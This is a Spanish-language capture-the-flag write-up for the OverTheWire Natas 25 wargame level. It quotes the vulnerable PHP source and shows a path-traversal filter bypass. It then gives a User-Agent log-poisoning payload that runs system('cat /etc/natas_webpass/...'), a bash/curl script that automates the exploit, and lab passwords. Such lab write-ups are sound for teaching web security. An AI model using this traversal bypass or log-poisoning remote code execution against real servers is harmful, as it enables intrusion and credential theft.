 ```yaml
---
title: Natas-25
published: true
---
```


```
Url del reto: http://natas25.natas.labs.overthewire.org/index.php
login:natas25
 pass: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

Se nos presenta el siguiente código:

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

Las funciones que vamos a tener en cuenta son:

```php
function safeinclude()
function logRequest($message)
```

Lo primero que hice es intentar mediante ruta relativa llegar al fichero donde esta la pass que es en /etc/natas_webpass/natas26.
El problema es que cuando intentamos hacer una petición GET:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Nos toparemos con el primer obstaculo de la función safeinclude()

```php
if(strstr($filename,"../")){
	logRequest("Directory traversal attempt! fixing request.");
	$filename=str_replace("../","",$filename);
}
```

Podemos saltarnos este filtro repitiendo la cadena ../

```
?lang=....//....//....//....//....//etc/natas_webpass/natas26
```

Y la función la dejará asi:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Ahora nos encontramos con el siguiente obstáculo:

```php
if(strstr($filename,"natas_webpass")){
	logRequest("Illegal file access detected! Aborting!");
	exit(-1);
}
```
Si detecta la cadena natas_webpass, terminará el programa y no podremos acceder a la ruta deseada.
Me he peleado bastante intentando saltarme este filtro pero no lo conseguí. Intente:

```
escapar caracteres: natas_webpas\s
colocando espacios: natas_webpass%20
Añadiendo comodines: natas_webpas[a-z], natas_webpas?, /etc/natas*/natas26, /etc/*/natas26
Añadiendo codigos ascii: saltos de linea, null (%00)
```

Intenté entrar en diferentes archivos del sistema (logs, ficheros de configuración) para ver si habia alguna fuga de información.
Tambien intente acceder si habia alguna clave ssh en el directorio home /home/natas25/.ssh/id_rsa pero nada.

Decidí ver otra parte del código, la función listFiles no veia nada raro, asi que me centré en la función logRequest().

En esta función guarda logs de las sessiones. Asi que intente recopilar muchas cookies e ir insertanto querys para ver si en alguna cookie era de algún admin y poder ver alguna fuga de información pero tampoco conseguí nada.

Después de muchas vueltas no me estaba dando cuenta que cuando se accede a algun log. Que para ello hay que usar la ruta relativa:

```
?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_cookie.log
```

Se veian notificaciones de PHP:

```
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
          
```

Asi que, pese a ser un fichero.log, esta ejecutando código PHP. Y viendo en la función logRequest() la siguiente linea:

```php
$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
```

Viendo esto se me ocurrió algo. ¿Y si añadimos código PHP en este campo?:

```
user-agent: <?php phpinfo() ?>
```

Modifiqué desde el firefox la cabecera user-agent y funcionó

![](https://madmb.github.io/imgs/natas25-cap01.png)

Reenvie la petición pero esta vez con el código pertinente:

```
User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>
```

Automatice todo el proceso mediante un script en bash:

```bash
#!/bin/bash

# /var/www/natas/natas25/logs/natas25_" . session_id() .".log"

# url principal
url_main='http://natas25.natas.labs.overthewire.org/index.php'

# Añadiremos al parametro User-Agent el codigo malicioso
payload="User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>"

# hacemos una peticion para extraer la cookie
curl --cookie-jar cookie.txt -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main &>/dev/null
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

# Esta consulta es para acceder al log de la cookie actual
query="?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_$cookie.log"

# Lanzamos un curl para que ejecute el codigo php $payload
curl --cookie "PHPSESSID=$cookie" --header "$payload" -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main${query} | html2text
```

El resultado es:

```
admin1@php:~$ bash natas25.bash 


****** natas25 ******
                                                       [One of: language/en/de]
[07.05.2022 16::02:59] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal
attempt! fixing request."
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
                                                                View_sourcecode
```

La pass para el siguiente nivel es:

```
natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

[Volver al archivo](archive)

